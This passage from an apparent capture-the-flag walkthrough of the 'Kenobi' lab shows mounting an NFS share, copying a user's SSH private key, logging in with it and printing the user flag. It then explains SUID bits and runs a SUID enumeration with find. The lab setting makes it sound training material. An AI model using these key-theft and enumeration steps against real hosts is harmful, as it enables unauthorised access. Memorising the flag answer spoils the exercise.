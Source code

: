 ### 4 	

*We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands. We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.*


#5 	

*Lets mount the /var/tmp directory to our machine*

    mkdir /mnt/kenobiNFS
    mount machine_ip:/var /mnt/kenobiNFS
    ls -la /mnt/kenobiNFS

*We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.*

*What is Kenobi's user flag (/home/kenobi/user.txt)?*

We copied the id_rsa to /var/tmp, so now we're going to copy it into our kenobi folder, and change the file permissions to 600.

    cp /mnt/kenobiNFS/tmp/id_rsa .
    chmod 600 id_rsa
    ssh kenobi@10.10.111.100 -i id_rsa

and we have a shell!

    kenobi@kenobi:~$ cat user.txt
    d0b0f3f53b6caa532a83915e19224899

## [Task 4] Privilege Escalation with Path Variable Manipulation 

Lets first understand what what SUID, SGID and Sticky Bits are.
| Permission | On Files                                                       | On Directories                                            |
|------------|----------------------------------------------------------------|-----------------------------------------------------------|
| SUID Bit   | User executes the file with permissions of the file owner      | -                                                         |
| SGID Bit   | User executes the file with the permission of the group owner. | File created in directory gets the same group owner.      |
| Sticky Bit | No meaning                                                     | Users are prevented from deleting files from other users. |

### 1 	

*SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.*

*To search the a system for these type of files run the following:* 

    find / -perm -u=s -type f 2>/dev/null

*What file looks particularly out of the ordinary?*

    kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
    /sbin/mount.nfs
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/snapd/snap-confine
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/bin/chfn
    /usr/bin/newgidmap
    /usr/bin/pkexec
    /usr/bin/passwd
    /usr/bin/newuidmap
    /usr/bin/gpasswd